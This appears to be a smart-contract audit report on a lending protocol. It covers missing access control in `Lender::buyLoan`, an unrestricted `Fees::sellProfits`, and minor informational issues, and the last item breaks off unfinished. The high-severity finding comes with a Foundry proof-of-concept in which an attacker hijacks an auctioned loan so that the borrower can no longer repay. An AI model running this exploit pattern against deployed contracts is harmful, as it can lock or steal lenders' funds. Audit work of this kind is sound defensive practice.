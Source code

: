 ### [S-#] Title (ROOT CAUSE + IMPACT)

**Description:**

**Impact:**

**Proof of Concept:**

**Recommended Mitigation:**

### [H-1] `Lender::buyLoan` allows anyone one with no ownership to a pool to buy a loan, Leading to irrecoverable debts to pools.

**Description:**
When a loan is put on an auction an attacker can buy the loan to another pool even though he has no ownership of the loan and the lender address changes to the attacker.`L#522: loans[loanId].lender = msg.sender;` and also increasing the debt of victim's pool. And If a borrower wants to repay the loan he cannot because the poolId is now calculated with the attacker address, which doesn't exist. So all state changes made using the pool address will fail.

In `Lender::buyLoan`, caller is set as the lender of the loan which will be the attacker here.

```solidity
// update the loan with the new info
@>  loans[loanId].lender = msg.sender;
    loans[loanId].interestRate = pools[poolId].interestRate;
    loans[loanId].startTimestamp = block.timestamp;
    loans[loanId].auctionStartTimestamp = type(uint256).max;
    loans[loanId].debt = totalDebt;

```

In `Lender::repay`, poolId calculated with attacker address and all calls operations with the poolId reverts.

```solidity
bytes32 poolId = getPoolId(
    loan.lender,
    loan.loanToken,
    loan.collateralToken
);

//update the pool balance
_updatePoolBalance(
    poolId,
    pools[poolId].poolBalance + loan.debt
    + lenderInterest
);

pools[poolId].outstandingLoans -= loan.debt;
```

**Impact**
An attacker can call buy loan and take ownership of the loan and all debts on that loan can't be paid and the lender will lose funds.

**Proof of Concept**

<details>

<summary>POC:</summary>

```solidity
 function test__buyLoansEvenIfCallerDoesNotHaveAPool() public {
        test_borrow();

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        //accrue interest
        vm.warp(block.timestamp + 364 days + 12 hours);
        // kick off auction
        vm.startPrank(lender1);

        lender.startAuction(loanIds);

        vm.startPrank(lender2);

        Pool memory p = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 2 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);
        vm.stopPrank();

        Pool memory lenderPool = lender.getPool(
            lender.getPoolId(
                lender1,
                address(loanToken),
                address(collateralToken)
            )
        );
        Pool memory lenderPool2 = lender.getPool(
            lender.getPoolId(
                lender2,
                address(loanToken),
                address(collateralToken)
            )
        );

        // warp to middle of auction
        vm.warp(block.timestamp + 24 hours);

        vm.startPrank(attacker);
        lender.buyLoan(0, poolId);
        vm.stopPrank();

        Pool memory attackerPool = lender.getPool(
            lender.getPoolId(
                attacker,
                address(loanToken),
                address(collateralToken)
            )
        );

        vm.startPrank(borrower);
        loanToken.mint(address(borrower), 5 * 10 ** 17);
        lender.repay(loanIds);
    }

```

</details>

Output :

```solidity
[FAIL. Reason: panic: arithmetic underflow or overflow (0x11)] test__buyLoansEvenIfCallerDoesNotHaveAPool()
```

**Recommended Mitigation:**
The protocol needs to add a check in the `Lender::buyLoan` function : if the caller is a the lender of the pool, if not it should revert.

```diff
function buyLoan(uint256 loanId, bytes32 poolId) public {
    ...
+   if (pools[poolId].lender != msg.sender) revert Unauthorized();
    ...

    }
```

### [L-1] `Fees::sellProfits` is missing a restriction, Protocol funds can be called by anyone to swap profits to WETH.

**Description:**

The `Fees::sellProfits` can be called by anyone to swap all protocol fees to WETH. Say maybe the attacker see that WETH prices tracking down, he could just sell all the profits to WETH there by reducing the value of the profits, although the protocol could swap back but some funds might be lost.

**Impact:**
There could be possible loss of value of funds that is if WETH prices are tracking down.

**Recommended Mitigation:**
The protocol can import Openzeppelin's Ownable2Step and add the onlyOwner modifier to the `Fees::sellProfits`, meaning only the owner can call the function

```diff
-   function sellProfits(address _profits) public {
+   function sellProfits(address _profits) public onlyOwner{
```

### [I-2] Floating pragmas

**Description:**
Contracts should use strict versions of solidity. Locking the version ensures the contract are not deployed with a different version than they were tested with. An incorrect version could lead to unintended results.

**Recommended Mitigation:**
Lock up pragma versions.

```diff
-   pragma solidity ^0.8.19;
+   pragma solidity 0.8.19;
```

### [I-3] No `address(0)` checks

Fees::sellProfits
